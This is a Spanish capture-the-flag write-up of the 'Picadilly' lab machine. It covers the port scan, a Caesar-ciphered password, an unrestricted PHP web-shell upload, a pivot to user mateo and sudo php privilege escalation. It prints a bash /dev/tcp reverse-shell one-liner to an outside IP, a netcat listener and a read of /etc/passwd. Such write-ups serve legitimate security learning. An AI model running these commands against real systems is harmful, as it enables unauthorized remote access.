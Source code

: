 # Picadilly
## Reconocimiento
Comienzo con un escaneo de puertos vía `nmap`.
```
❯ nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmapScan.xml && xsltproc nmapScan.xml -o nmapScan.html && open nmapScan.html &>/dev/null & disown
```

![Escaneo de puertos](imgs/1.png)

Esto revela dos servidores HTTP, uno en el puerto 80 y el otro en el 443, el segundo con un certificado SSL.

Al visitar el del puerto 80 me encuentro con el siguiente texto:
```
/// The users mateo password is ////


----------- hdvbfuadcb ------------

"To solve this riddle, think of an ancient Roman emperor and his simple method of shifting letters."

////////////////////////////////////
```
Asumo que se refiere al cifrado César, así que pruebo a decodificarlo y encuentro lo que podría ser la contraseña. Como aparentemente no hay nada más, voy a visitar el del puerto 443.

Parece una especie de foro, la página tiene un formulario de subida de archivos, estos luego se muestran en forma de entrada en el blog.

![Foro con formulario de subida](imgs/2.png)
## Explotación
Subo un archivo llamado `shell.php` y no hay ningún control que me lo impide, este se muestra como entrada del blog con normalidad. Probando el típico directorio donde se pueden ver los archivos visito `/uploads` y ahí está la shell, me pongo en escucha con `nc -nvlp 443` y al clicar en el archivo desde el navegador y volver a la terminal veo que ya estoy dentro como root.

![Shell subida y acceso root](imgs/3.png)
## Post-explotación
En primer lugar, sanitizo la shell

![Sanitización de la shell](imgs/4.png)

Con `cat /etc/passwd`, verifico que el usuario mateo existe, cuando veo que si utilizo la contraseña previamente descifrada para pivotar con éxito

![Pivotando a usuario mateo](imgs/5.png)

Autenticado como mateo, me paso la shell a otra consola para tenerla más limpia.
```sh
bash -i >& /dev/tcp/192.168.1.157/444 0>&1
```

Ya con una terminal en condiciones, miro si hay algún vector de escalada sencillo con `sudo -l`, veo que el binario `php` puede ejecutarse con permisos superiores, una búsqueda rápida en GTFObins y laboratorio resuelto

![Escalada de privilegios con php](imgs/6.png)